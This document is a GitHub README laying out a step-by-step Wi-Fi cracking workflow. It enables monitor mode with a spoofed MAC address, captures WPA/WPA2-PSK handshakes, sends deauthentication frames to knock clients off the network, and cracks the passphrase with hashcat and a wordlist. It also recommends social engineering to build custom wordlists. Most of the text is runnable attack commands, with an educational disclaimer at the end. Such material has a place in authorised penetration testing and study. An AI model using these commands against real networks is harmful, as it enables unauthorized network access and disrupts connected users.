








# WPA/WPA2-PSK Handshake Capture and Analysis


## Overview

This repository contains an educational workflow for capturing WPA/WPA2-PSK handshakes and preparing them for offline analysis with hashcat. The provided scripts enable monitor mode, capture wireless traffic, convert captured handshakes into hashcat-compatible format, and restore normal Wi-Fi operation.

> This method applies only to WPA/WPA2-Personal (PSK) networks. It does not work on WPA3, WPA2-Enterprise, or other Enterprise authentication methods.

## Repository Contents

- `Enable_monitor_mode.sh` — enable monitor mode on the wireless interface and randomize the MAC address
- `Restore_managed_mode.sh` — disable monitor mode and restore network services
- `README.md` — project documentation, procedure, and screenshots

## Requirements

- Linux operating system (Kali Linux or similar recommended)
- Wireless adapter with monitor mode and packet injection support
- Installed tools:
  - `aircrack-ng`
  - `hcxtools`
  - `hashcat`
  - `macchanger`
  - `iw`


## Getting Started

To test this repository locally, clone it and run the provided scripts on a compatible Linux system:

```bash
git clone https://github.com/<your-user>/coffecopy.git
cd coffecopy
chmod +x Enable_Monitor_Mode.sh Disable_Monitor_Mode.sh
```


Then install the required tools with:

```bash
sudo apt update
sudo apt install aircrack-ng hcxtools hashcat macchanger iw
```

## Usage

### 1. Verify the wireless interface

Run:

```bash
iw dev
```





Note the interface name, for example `wlan0` or `wlp2s0`.

### 2. Enable monitor mode

Run the executable script: 

```bash
sudo ./Enable_monitor_mode.sh
```





Expected behavior:

- stop interfering services with `airmon-ng check kill`
- enable monitor mode on the wireless interface
- assign a random MAC address with `macchanger`
- bring the monitor interface up

### 3. Scan for WPA/WPA2-PSK networks

Run:

```bash
sudo airodump-ng wlan0mon
```





Look for target networks with:

- `ENC: WPA` or `WPA2`
- `AUTH: PSK`

Avoid networks labeled `AUTH: SAE` or any Enterprise authentication, those can't be targeted with this method.

### 4. Start a targeted capture

Stop the general scan with `Ctrl+C` and then run:

```bash
sudo airodump-ng --bssid <BSSID> --channel <CHANNEL> -w capture wlan0mon
```





Replace `<BSSID>` with the access point MAC address and `<CHANNEL>` with the network channel.

### 5. Force a client to reconnect

In a second terminal, send deauthentication frames:

```bash
sudo aireplay-ng --deauth 10 <Number of Deauth packets> -a <BSSID> -c <Connected Client BSSID> -D <Disable Access Point detection, optional> wlan0mon
```





This may trigger a connected client to reconnect and generate the WPA handshake.

### 6. Confirm handshake capture

Watch the `airodump-ng` output and wait for a line similar to:

```text
WPA handshake: <BSSID>
```


The capture file is usually saved as `capture-01.cap`.


### 7 Verify the handshake capture with:

```bash
aircrack-ng capture-01.cap
```




### 8. Convert the capture to hashcat format

Convert the captured handshake file with:

```bash
hcxpcapngtool -o handshake.hc22000 capture-01.cap
```




### 9. Crack the handshake with hashcat

Use a wordlist, for example `rockyou.txt`:

```bash
hashcat -m 22000 handshake.hc22000 /usr/share/wordlists/rockyou.txt
```

Show cracked results with:

```bash
hashcat -m 22000 handshake.hc22000 --show
```



### 10. Restore the network

When testing is complete, disable monitor mode:

```bash
sudo ./Restore_managed_mode.sh
```

This script should stop monitor mode and restart the network manager.

## Notes

- It's not sure that you will capture the handshake
- Results depend entirely on the quality of the wordlist.
- Strong passwords or random passphrases are not likely to be cracked with this method.
- Use Social Engineering to create a custom wordlist, it work's better than a random one.
- Use this repository only on networks you own or explicitly have permission to test.


## Screenshot guidance


- `0-interface.png` — output of `iw dev`
- `1-monitor-mode.png` — monitor mode enabled
- `2-scan.png` — `airodump-ng` listing a WPA/WPA2-PSK network
- `3-target-scan.png` — `airodump-ng` on the specific WPA/WPA2 network
- `4-deauth-and-captured-handshake.png` — `aireplay-ng` sending deauth packets and `airodump-ng` that show the lost frame and the captured handshake
- `5-handshake.png` — `airodump-ng` showing `WPA handshake:`
- `6-aircrack-ng-EAPOL-check.png` — successful `hcxpcapngtool` output
- `7-conversion.png` — successful `hcxpcapngtool` output
- `8-crack.png` — `hashcat` showing cracked results

## Legal and ethical notice

All the analysis was tested on my personal network and in a isolated enviroment. 

This repository is intended for educational use only.

Only test networks that you own or networks for which you have explicit permission.

Unauthorized access to wireless networks is illegal in most jurisdictions.

The author is not responsible for misuse of this information.
